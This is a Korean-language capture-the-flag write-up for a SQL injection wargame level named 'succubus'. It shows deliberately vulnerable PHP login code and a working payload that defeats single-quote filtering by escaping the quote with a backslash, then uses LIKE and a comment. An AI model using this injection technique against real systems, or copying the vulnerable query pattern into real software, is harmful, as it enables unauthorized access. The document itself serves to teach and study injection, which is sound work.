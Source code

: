 # SUCCUBUS

## Problem
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[id])) exit("HeHe"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_succubus where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("succubus"); 
  highlight_file(__FILE__); 
?>
```

## Inspection
* `if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");`
* `if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");`
	- 파라미터의 `id`, `pw`에서 `prob`, `_`, `.`, `(`, `)`를 거른다.
* `if(preg_match('/\'/i', $_GET[id])) exit("HeHe");`
* `if(preg_match('/\'/i', $_GET[pw])) exit("HeHe");`
	- 파라미터의 `id`, `pw`에서 `'`(작은따옴표, single quote)를 거른다.
* `select id from prob_succubus where id='{$_GET[id]}' and pw='{$_GET[pw]}'`
	- 파라미터로 `id`와 `pw`를 받는다.
	- `id`와 `pw` 양옆에 작은따옴표가 감싼다.
* `if($result['id']) solve("succubus");`
	- 쿼리문의 결과가 뜬다면 통과한다.

## Solution
* Escaped character와 `LIKE` operator, 주석 처리를 이용한다.
	- `?id=\&pw=or id like "%" --%20`
	- `select id from prob_succubus where id='\' and pw='or id like "%" -- '`
	- `\`을 넣어 두번째 `'`를 escaped 상태로 만들어 `id`에 `\' and pw=`가 들어가도록 만든다. 
	- `pw`에 원하는 구문을 삽입한 뒤 맨 마지막 `'`를 주석 처리로 제거한다.